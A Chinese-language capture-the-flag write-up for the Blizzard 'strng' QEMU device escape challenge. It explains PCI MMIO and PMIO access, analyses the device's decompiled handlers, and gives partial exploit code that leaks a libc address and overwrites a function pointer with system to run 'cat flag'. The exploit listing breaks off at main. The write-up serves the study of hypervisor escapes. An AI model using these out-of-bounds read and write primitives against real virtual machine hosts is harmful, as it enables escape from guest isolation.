# Blizzard CTF Strng Writeup

## 前置知识

做qemu这一类题目，首先就需要仔细观察一下启动命令，看启动命令里面启动了哪些设备，一般漏洞都是存在于这些设备里面的。

**lspci命令：**lspci 是一个用来显示系统中所有PCI总线设备或连接到该总线上的所有设备的工具

**此部分内容来源自：https://xz.aliyun.com/t/6562#toc-2**

**pci设备地址空间**

PCI设备都有一个配置空间（PCI Configuration Space），其记录了关于此设备的详细信息。大小为256字节，其中头部64字节是PCI标准规定的，当然并非所有的项都必须填充，位置是固定了，没有用到可以填充0。前16个字节的格式是一定的，包含头部的类型、设备的总类、设备的性质以及制造商等，格式如下：



比较关键的是其6个BAR(Base Address Registers)，BAR记录了设备所需要的地址空间的类型，基址以及其他属性。BAR的格式如下：



设备可以申请两类地址空间，memory space和I/O space，它们用BAR的最后一位区别开来。

当BAR最后一位为0表示这是映射的I/O内存，为1是表示这是I/O端口，当是I/O内存的时候1-2位表示内存的类型，bit 2为1表示采用64位地址，为0表示采用32位地址。bit1为1表示区间大小超过1M，为0表示不超过1M。bit3表示是否支持可预取。

而相对于I/O内存，当最后一位为1时表示映射的I/O端口。I/O端口一般不支持预取，所以这里是29位的地址。

通过memory space访问设备I/O的方式称为memory mapped I/O，即MMIO，这种情况下，CPU直接使用普通访存指令即可访问设备I/O。

通过I/O space访问设备I/O的方式称为port I/O，或者port mapped I/O，这种情况下CPU需要使用专门的I/O指令如`IN/OUT`访问I/O端口。

关于MMIO和PMIO，维基百科的描述是：

```
Memory-mapped I/O (MMIO) and port-mapped I/O (PMIO) (which is also called
isolated I/O) are two complementary methods of performing input/output (I/O)
between the central processing unit (CPU) and peripheral devices in a computer.
An alternative approach is using dedicated I/O processors, commonly known as
channels on mainframe computers, which execute their own instructions.
```

在MMIO中，内存和I/O设备共享同一个地址空间。 MMIO是应用得最为广泛的一种I/O方法，它使用相同的地址总线来处理内存和I/O设备，I/O设备的内存和寄存器被映射到与之相关联的地址。当CPU访问某个内存地址时，它可能是物理内存，也可以是某个I/O设备的内存，用于访问内存的CPU指令也可来访问I/O设备。每个I/O设备监视CPU的地址总线，一旦CPU访问分配给它的地址，它就做出响应，将数据总线连接到需要访问的设备硬件寄存器。为了容纳I/O设备，CPU必须预留给I/O一个地址区域，该地址区域不能给物理内存使用。

在PMIO中，内存和I/O设备有各自的地址空间。 端口映射I/O通常使用一种特殊的CPU指令，专门执行I/O操作。在Intel的微处理器中，使用的指令是IN和OUT。这些指令可以读/写1,2,4个字节（例如：`outb`, `outw`, `outl`）到IO设备上。I/O设备有一个与内存不同的地址空间，为了实现地址空间的隔离，要么在CPU物理接口上增加一个I/O引脚，要么增加一条专用的I/O总线。由于I/O地址空间与内存地址空间是隔离的，所以有时将PMIO称为被隔离的IO(Isolated I/O)。

**qemu中查看pci设备**

下面通过在qemu虚拟机中查看pci设备来进一步增进理解，仍然是基于strng这道题的qemu虚拟机。

`lspci`命令用于显示当前主机的所有PCI总线信息，以及所有已连接的PCI设备信息。

pci设备的寻址是由总线、设备以及功能构成。如下所示：

```
ubuntu@ubuntu:~$ lspci
00:00.0 Host bridge: Intel Corporation 440FX - 82441FX PMC [Natoma] (rev 02)
00:01.0 ISA bridge: Intel Corporation 82371SB PIIX3 ISA [Natoma/Triton II]
00:01.1 IDE interface: Intel Corporation 82371SB PIIX3 IDE [Natoma/Triton II]
00:01.3 Bridge: Intel Corporation 82371AB/EB/MB PIIX4 ACPI (rev 03)
00:02.0 VGA compatible controller: Device 1234:1111 (rev 02)
00:03.0 Unclassified device [00ff]: Device 1234:11e9 (rev 10)
00:04.0 Ethernet controller: Intel Corporation 82540EM Gigabit Ethernet Controller (rev 03)
```

`xx:yy:z`的格式为`总线:设备:功能`的格式。

可以使用lspci命令以树状的形式输出pci结构：

```
ubuntu@ubuntu:~$ lspci -t -v
-[0000:00]-+-00.0  Intel Corporation 440FX - 82441FX PMC [Natoma]
           +-01.0  Intel Corporation 82371SB PIIX3 ISA [Natoma/Triton II]
           +-01.1  Intel Corporation 82371SB PIIX3 IDE [Natoma/Triton II]
           +-01.3  Intel Corporation 82371AB/EB/MB PIIX4 ACPI
           +-02.0  Device 1234:1111
           +-03.0  Device 1234:11e9
           \-04.0  Intel Corporation 82540EM Gigabit Ethernet Controller
```

其中`[0000]`表示pci的域， PCI域最多可以承载256条总线。 每条总线最多可以有32个设备，每个设备最多可以有8个功能。

总之每个 PCI 设备有一个总线号, 一个设备号, 一个功能号标识。PCI 规范允许单个系统占用多达 256 个总线, 但是因为 256 个总线对许多大系统是不够的, Linux 现在支持 PCI 域。每个 PCI 域可以占用多达 256 个总线. 每个总线占用 32 个设备, 每个设备可以是 一个多功能卡(例如一个声音设备, 带有一个附加的 CD-ROM 驱动)有最多 8 个功能。

PCI 设备通过`VendorIDs`、`DeviceIDs`、以及`Class Codes`字段区分：

```
ubuntu@ubuntu:~$ lspci -v -m -n -s 00:03.0
Device: 00:03.0
Class:  00ff
Vendor: 1234
Device: 11e9
SVendor:        1af4
SDevice:        1100
PhySlot:        3
Rev:    10

ubuntu@ubuntu:~$ lspci -v -m -s 00:03.0
Device: 00:03.0
Class:  Unclassified device [00ff]
Vendor: Vendor 1234
Device: Device 11e9
SVendor:        Red Hat, Inc
SDevice:        Device 1100
PhySlot:        3
Rev:    10
```

也可通过查看其`config`文件来查看设备的配置空间，数据都可以匹配上，如前两个字节`1234`为`vendor id`：

```
ubuntu@ubuntu:~$ hexdump /sys/devices/pci0000\:00/0000\:00\:03.0/config
0000000 1234 11e9 0103 0000 0010 00ff 0000 0000
0000010 1000 febf c051 0000 0000 0000 0000 0000
0000020 0000 0000 0000 0000 0000 0000 1af4 1100
0000030 0000 0000 0000 0000 0000 0000 0000 0000
```

查看设备内存空间：

```
ubuntu@ubuntu:~$ lspci -v -s 00:03.0 -x
00:03.0 Unclassified device [00ff]: Device 1234:11e9 (rev 10)
        Subsystem: Red Hat, Inc Device 1100
        Physical Slot: 3
        Flags: fast devsel
        Memory at febf1000 (32-bit, non-prefetchable) [size=256]
        I/O ports at c050 [size=8]
00: 34 12 e9 11 03 01 00 00 10 00 ff 00 00 00 00 00
10: 00 10 bf fe 51 c0 00 00 00 00 00 00 00 00 00 00
20: 00 00 00 00 00 00 00 00 00 00 00 00 f4 1a 00 11
30: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

可以看到该设备有两个空间：BAR0为MMIO空间，地址为`febf1000`，大小为256；BAR1为PMIO空间，端口地址为`0xc050`，大小为8。

可以通过查看`resource`文件来查看其相应的内存空间：

```
ubuntu@ubuntu:~$ ls -la /sys/devices/pci0000\:00/0000\:00\:03.0/
...
-r--r--r--  1 root root 4096 Aug  1 03:40 resource
-rw-------  1 root root  256 Jul 31 13:18 resource0
-rw-------  1 root root    8 Aug  1 04:01 resource1
...
```

`resource`文件包含其它相应空间的数据，如resource0（MMIO空间）以及resource1（PMIO空间）：

```
ubuntu@ubuntu:~$ cat /sys/devices/pci0000\:00/0000\:00\:03.0/resource
0x00000000febf1000 0x00000000febf10ff 0x0000000000040200
0x000000000000c050 0x000000000000c057 0x0000000000040101
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
0x0000000000000000 0x0000000000000000 0x0000000000000000
```

每行分别表示相应空间的起始地址（start-address）、结束地址（end-address）以及标识位（flags）。

**qemu中访问I/O空间**

存在mmio与pmio，那么在系统中该如何访问这两个空间呢？访问mmio与pmio都可以采用在内核态访问或在用户空间编程进行访问。

**访问mmio**

编译内核模块，在内核态访问mmio空间，示例代码如下：

```
#include <asm/io.h>
#include <linux/ioport.h>

long addr=ioremap(ioaddr,iomemsize);
readb(addr);
readw(addr);
readl(addr);
readq(addr);//qwords=8 btyes

writeb(val,addr);
writew(val,addr);
writel(val,addr);
writeq(val,addr);
iounmap(addr);
```

还有一种方式是在用户态访问mmio空间，通过映射`resource0`文件实现内存的访问，示例代码如下：

```
#include <assert.h>
#include <fcntl.h>
#include <inttypes.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <unistd.h>
#include<sys/io.h>


unsigned char* mmio_mem;

void die(const char* msg)
{
    perror(msg);
    exit(-1);
}


void mmio_write(uint32_t addr, uint32_t value)
{
    *((uint32_t*)(mmio_mem + addr)) = value;
}

uint32_t mmio_read(uint32_t addr)
{
    return *((uint32_t*)(mmio_mem + addr));
}


int main(int argc, char *argv[])
{

    // Open and map I/O memory for the strng device
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);
    if (mmio_fd == -1)
        die("mmio_fd open failed");

    mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_mem == MAP_FAILED)
        die("mmap mmio_mem failed");

    printf("mmio_mem @ %p\n", mmio_mem);

    mmio_read(0x128);
        mmio_write(0x128, 1337);

}
```

**访问pmio**

编译内核模块，在内核空间访问pmio空间，示例代码如下：

```
#include <asm/io.h> 
#include <linux/ioport.h>

inb(port);  //读取一字节
inw(port);  //读取两字节
inl(port);  //读取四字节

outb(val,port); //写一字节
outw(val,port); //写两字节
outl(val,port); //写四字节
```

用户空间访问则需要先调用`iopl`函数申请访问端口，示例代码如下：

```
#include <sys/io.h >

iopl(3); 
inb(port); 
inw(port); 
inl(port);

outb(val,port); 
outw(val,port); 
outl(val,port);
```

## 题目分析

首先根据上面所说的前置知识，我们首先来看一下启动命令，并且逐条解析一下，命令如下：

```
./qemu-system-x86_64 \
    -m 1G \
    -device strng \
    -hda my-disk.img \
    -hdb my-seed.img \
    -nographic \
    -L pc-bios/ \
    -enable-kvm \
    -device e1000,netdev=net0 \
    -netdev user,id=net0,hostfwd=tcp::5555-:22
```

- -m 1G：给虚拟机分配1G内存
- -device strng：添加一个strng设备**(漏洞设备)**
- -hda my-disk.img：操作系统镜像
- -hdb my-seed.img：文件系统镜像
- -nographic：关闭图形化显示，意思也就是开启的虚拟机和终端类似，没有图形化界面
- -L pc-bios：这个命令具体是做什么的还不知道不过我把这条命令去掉之后也可以正常运行
- -enable-kvm：开启kvm
- -device e1000，netdev=net0：添加网卡设备
- -netdev user，id=net0，hostfwd=tcp::5555-:22，把22端口重新映射为5555端口

然后进入虚拟机之后使用lspci命令查看设备信息，同时好奇自己的服务器是不是虚拟机也在服务器运行了一下，发现服务器也是虚拟机XD，第一张图为虚拟机的lspci输出，第二章图为服务器的lspci输出





同时咱们也可以在第一张图中看到strng设备对应的MMIO的起始地址为febf1000，size为256，PMIO的端口地址为0xc050，size为8，然后咱们去ida中看一下，对应的strng的初始化函数是不是与之对应的做一下检查，可以看到下面的图中对应的，device_id、revsion、class_id、vendor_id都可以与第一张图对的上



下面我们查看一下resource文件，resource0对应的是MMIO，而resource1对应的是PMIO。resource中数据格式是start-address end-address flags，可以看到MMIO的起始地址为febf100，结束地址为febf10ff。PMIO的起始地址为c050，结束地址为c057



然后直接来看关于MMIO和PMIO的四个函数，strng_mmio_read、strng_mmio_write、strng_pmio_read、strng_pmio_write

**strng_mmio_read：**

```
uint64_t __fastcall strng_mmio_read(STRNGState *opaque, hwaddr addr, unsigned int size)
{
  uint64_t result; // rax

  result = -1LL;
  if ( size == 4 && !(addr & 3) )
    result = opaque->regs[addr >> 2];
  return result;
}
```

首先size需要等于4，然后地址是需要4字节对齐的也就是低2位是需要为0的，然后会把addr右移两位作为一个索引返回相应regs的值

**strng_mmio_write：**

```
void __fastcall strng_mmio_write(STRNGState *opaque, hwaddr addr, uint64_t val, unsigned int size)
{
  hwaddr v4; // rsi
  int v5; // eax
  int vala; // [rsp+8h] [rbp-30h]

  if ( size == 4 && !(addr & 3) )
  {
    v4 = addr >> 2;
    if ( v4 == 1 )
    {
      opaque->regs[1] = (opaque->rand)(opaque, v4, val);
    }
    else if ( v4 < 1 )
    {
      opaque->srand(val);
    }
    else
    {
      if ( v4 == 3 )
      {
        vala = val;
        v5 = opaque->rand_r(&opaque->regs[2]);
        LODWORD(val) = vala;
        opaque->regs[3] = v5;
      }
      opaque->regs[v4] = val;
    }
  }
}
```

也是先需要检测一下size是不是等于4并且addr的低2位是不是为0，然后把addr右移两位然后开始分情况

- 当 addr>>2 = 1时，直接调用rand函数，然后把返回值赋给regs[1]
- 当 addr>>2 = 0时，直接调用srand函数
- 当 addr>>2 = 3时，直接调用rand_r函数，然后把返回值赋给regs[3]
- 当 addr>>2 不符合上面的情况的时候就会直接把val赋值给regs[addr >> 2]

看起来似乎是`addr`可以由我们控制，可以使用`addr`来越界读写`regs`数组。即如果传入的addr大于regs的边界，那么我们就可以读写到后面的函数指针了。但是事实上是不可以的，前面已经知道了`mmio`空间大小为256，我们传入的addr是不能大于`mmio`的大小；因为pci设备内部会进行检查，而刚好`regs`的大小为256，所以我们无法通过`mmio`进行越界读写。

**strng_pmio_write：**

```
void __fastcall strng_pmio_write(STRNGState *opaque, hwaddr addr, uint64_t val, unsigned int size)
{
  uint32_t v4; // eax
  __int64 v5; // rax

  if ( size == 4 )
  {
    if ( addr )
    {
      if ( addr == 4 )
      {
        v4 = opaque->addr;
        if ( !(v4 & 3) )
        {
          v5 = v4 >> 2;
          if ( v5 == 1 )
          {
            opaque->regs[1] = (opaque->rand)(opaque, 4LL, val);
          }
          else if ( v5 < 1 )
          {
            opaque->srand(val);
          }
          else if ( v5 == 3 )
          {
            opaque->regs[3] = (opaque->rand_r)(&opaque->regs[2], 4LL, val);
          }
          else
          {
            opaque->regs[v5] = val;
          }
        }
      }
    }
    else
    {
      opaque->addr = val;
    }
  }
}
```

- 当addr=0时，直接把val赋值给opaque->addr
- 当addr不为0时，将opaque->addr右移两位，然后对右移之后的值进行判断，
  - 当 opaque->addr >> 2 = 1时，调用rand函数并且把返回值赋给regs[1]
  - 当 opaque->addr >> 2 = 0时，直接调用srand函数
  - 当 opaque->addr >> 2 = 3时，调用rand_r函数，并且参数为regs[2]，然后把返回值赋给regs[3]
  - 当不是上面这些情况时，直接把val赋给 opaque->regs[opaque->addr >> 2 ]

**strng_pmio_read：**

```
uint64_t __fastcall strng_pmio_read(STRNGState *opaque, hwaddr addr, unsigned int size)
{
  uint64_t result; // rax
  uint32_t v4; // edx

  result = -1LL;
  if ( size == 4 )
  {
    if ( addr )
    {
      if ( addr == 4 )
      {
        v4 = opaque->addr;
        if ( !(v4 & 3) )
          result = opaque->regs[v4 >> 2];
      }
    }
    else
    {
      result = opaque->addr;
    }
  }
  return result;
}
```

- 当 addr 为 0 的时候直接把 opaque->addr 赋给result
- 不是上面的情况的时候，直接把opaque->addr右移2位作为regs的索引并且把opaque->regs[opaque->addr >> 2]赋给result

**利用方法**

首先对比一下mmio和pmio的区别，首先可以发现mmio在使用索引的时候是直接使用addr来作为索引，而pmio使用索引的时候使用的是opaque->addr来作为索引。并且我们呢可以发现opaque->addr的值是可以被我们控制的，即使用strng_pmio_write，并且addr为0时，可以直接把val赋给opaque->addr。然后当我们再使用strng_pmio_read函数时让端口地址不为0，就可以通过opaque->addr构造任意的索引来访问regs，从而达到**越界读**。现在光有越界读并不能解决所有的问题，我们也需要进行**越界写**，和越界读一样，也是先控制opaque->addr的值，并且可以发现当调用strng_pmio_write函数时，如果我们设置addr为大于等于4的值时，会直接把val赋值给opaque->regs[opaque->addr >> 2]，可以发现opaque->addr的值时我们可以控制的，所以说我们就可以通过regs进行越界写。

现在有了越界读和越界写，就该考虑应该读哪些内容和写哪些内容，对应越界读我们应该读srand函数的地址，当我们知道了一个函数的地址，再减去固定的libc偏移，我们就可以得到libc基址，得到基址也就可以调用system函数了。对应越界写我们可以把system地址写入到rand_r函数里，实现调用rand_r函数就执行system函数，然后我们再通过越界写把"cat /Blizzard/flag"写入到regs[2]这里，然后调用rand_r函数就可以实现调用这条指令system("cat /Blizzard/flag")，从而获得到flag

弄清楚了利用方式，下面就是写exp和调试修改exp了

上面的前置知识中已经写过怎么使用编程访问pmio和mmio了，所以对应我们写处如下函数，以便于访问pmio和mmio

```
--------------------------------------------------------------------------------------------------------
pmio:

uint32_t pmio_write(uint32_t addr, uint32_t value)
{
    outl(value,addr);
}

uint32_t pmio_read(uint32_t addr)
{
    return (uint32_t)inl(addr);
}
--------------------------------------------------------------------------------------------------------
mmio:

void mmio_write(uint32_t addr, uint32_t value)
{
    *((uint32_t*)(mmio_mem + addr)) = value;
}

uint32_t mmio_read(uint32_t addr)
{
    return *((uint32_t*)(mmio_mem + addr));
}

int mmio_fd = open("/sys/devices/pci0000:00/0000:00:03.0/resource0", O_RDWR | O_SYNC);
if (mmio_fd == -1)
    die("mmio_fd open failed");

mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
if (mmio_mem == MAP_FAILED)
    die("mmap mmio_mem failed");
--------------------------------------------------------------------------------------------------------
```

下面我们先执行越界写把"cat /root/flag"写入到regs[2]，对应代码如下：

```
int mmio_fd = open("/sys/devices/pci0000:00/0000:00:03.0/resource0", O_RDWR | O_SYNC);
if (mmio_fd == -1)
    die("mmio_fd open failed");

mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
if (mmio_mem == MAP_FAILED)
    die("mmap mmio_mem failed");

printf("mmio_mem @ %p\n", mmio_mem);
  
mmio_write(8,0x20746163);
mmio_write(12,0x6f6f722f);
mmio_write(16,0x6c662f74);
mmio_write(20,0x6761);
```

这里因为是写入到regs[2]，并且regs数组是uint32_t的所以说数组里一个元素占4个字节，所以对应要想写入到regs[2]就需要从第9个字节开始写入，所以第一个mmio_write的addr设置的为8，然后我们来动调看一下相应的位置是否被我们修改成功了



然后我们就需要越界读了，把srand的函数地址读出来，越界读：首先使用strng_pmio_write设置opaque->addr，即当addr为0时，传入的val会直接赋值给opaque->addr；然后再调用strng_pmio_read，就会去读regs[opaque->addr >> 2]的值，实现越界读，代码如下：

```
uint32_t pmio_arbread(uint32_t offset)
{
    pmio_write(pmio_base+0,offset);
    return pmio_read(pmio_base+4);
}
```

这里我们传入的offset的值应该是对应着regs到srand的偏移，可以动调得到这个值，如下图所示：





偏移是0x104，因为每次返回只能返回4字节也就是32位，所以我们需要两次越界读，一次偏移为0x104，一次为0x108，然后最开始的时候我疑问为什么不是0x104左移两位之后的值，后来动调的时候发现在给返回值赋值的时候，虽然右移了两位，但是在赋值的时候乘了一个4也就是左移了两位，所以我们可以直接写0x104和0x108

越界读出来了srand的地址，然后我们就得到了libc基址，同样也就得到了system的地址，现在我们只需要把rand_r的地址改成system的地址了，先计算一下rand_r的偏移，如下图所示：



可以看到偏移为0x114，所以我们直接越界写，把system的地址覆盖进去就可以了，对应越界写的代码：仍然是首先使用strng_pmio_write设置opaque->addr，即当addr为0时，传入的val会直接赋值给opaque->addr；然后调用strng_pmio_write，并设置addr为4，即会去将此次传入的val写入到regs[opaque->addr >> 2]中，实现越界写，代码如下：

```
void pmio_abwrite(uint32_t offset, uint32_t value)
{
    pmio_write(pmio_base+0,offset);
    pmio_write(pmio_base+4,value);
}
```

对应的参数，offset就应该是0x114,然后value就是system的地址，然后我们动调一下看我们是否成功的写入了进去，如下图所示：




可以看到我们成功的把system写入到了rand_r处，下面就剩最后一步了，现在rand_r就是systen，regs[2]就是"cat /Blizzard/flag"，现在我们只需要调用strng_mmio_write函数，并且让addr右移2位之后等于3即可，然后就会调用cat flag了，动调addr的值如下所示：



完整exp如下(别人编写的，此篇文章只是分析，所以没有自己再写一个wp)：

```
#include <assert.h>
#include <fcntl.h>
#include <inttypes.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <unistd.h>
#include <sys/io.h>
#include <stdint.h>

unsigned char* mmio_mem;
uint32_t pmio_base=0xc050;


void die(const char* msg)
{
    perror(msg);
    exit(-1);
}

void mmio_write(uint32_t addr, uint32_t value)
{
    *((uint32_t*)(mmio_mem + addr)) = value;
}

uint32_t mmio_read(uint32_t addr)
{
    return *((uint32_t*)(mmio_mem + addr));
}

uint32_t pmio_write(uint32_t addr, uint32_t value)
{
    outl(value,addr);
}


uint32_t pmio_read(uint32_t addr)
{
    return (uint32_t)inl(addr);
}

uint32_t pmio_arbread(uint32_t offset)
{
    pmio_write(pmio_base+0,offset);
    return pmio_read(pmio_base+4);
}

void pmio_abwrite(uint32_t offset, uint32_t value)
{
    pmio_write(pmio_base+0,offset);
    pmio_write(pmio_base+4,value);
}

int main(int argc, char *argv[])
{
    
    // Open and map I/O memory for the strng device
